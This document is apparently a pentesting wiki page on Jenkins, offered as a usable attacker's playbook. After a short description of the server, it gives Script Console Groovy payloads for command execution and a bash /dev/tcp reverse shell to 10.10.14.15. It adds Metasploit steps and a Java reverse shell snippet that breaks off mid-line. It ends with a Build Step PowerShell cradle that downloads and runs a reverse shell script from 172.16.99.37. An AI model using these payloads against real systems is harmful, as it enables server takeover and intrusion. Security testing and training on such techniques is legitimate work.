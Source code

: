 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Jenkins

Jenkins is a **Java-based open-source automation server**, designed to support continuous integration by automatically building and testing software whenever changes are made. By default, Jenkins includes a lightweight Java-based web server called **Winstone** on the `8080` port, but it can also be deployed as a **Web Application Archive (WAR)** file to run inside a Java servlet container like Apache Tomcat, Jetty, or GlassFish. It uses port `5000` to connect with slave nodes for distributed tasks. When Jenkins run as a Windows service, it typically uses Winstone and runs under as `SYSTEM`.&#x20;

For authentication, Jenkins supports multiple backends including its local user database, LDAP, Unix user accounts, or a servlet container. It can also be configured to allow unauthenticated access. In its default state, **Jenkins stores credentials in its internal database** and does not permit users to create their own accounts.

## RCE

### Script Console

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/) (`/script`), which allows us to run arbitrary Groovy scripts within the Jenkins controller runtime and can be abused to run operating system commands on the underlying server. Groovy is an object-oriented Java-compatible language. Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.

{% tabs %}
{% tab title="RCE" %}
Run arbitrary system commands (similar to a webshell):

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```
{% endtab %}

{% tab title="RevShell" %}
Send a reverse shell:

{% code overflow="wrap" %}
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
Metasploit's [jenkins\_script\_console](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) module:

```bash
> use exploit/multi/http/jenkins_script_console
> show targets
> set TARGET < target-id >
> show options
> exploit
```
{% endtab %}

{% tab title="Windows Targets" %}
Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host:

{% code overflow="wrap" %}
```groovy
String host="<attacker-IP>";
int port=<attacker-port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.ge
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Build Step

If the compromised user is does not have eleveated privileges, but is able to configure projects, we can still get RCE by creating/modyfing a Build Step and passing an RCE command to be executed:

<figure><img src="../../.gitbook/assets/jenkins_build_step_1.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# Payload
powershell.exe iex (iwr http://172.16.99.37/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.99.37 -Port 443
```
{% endcode %}

<figure><img src="../../.gitbook/assets/jenkins_revshell.png" alt=""><figcaption></figcaption></figure>
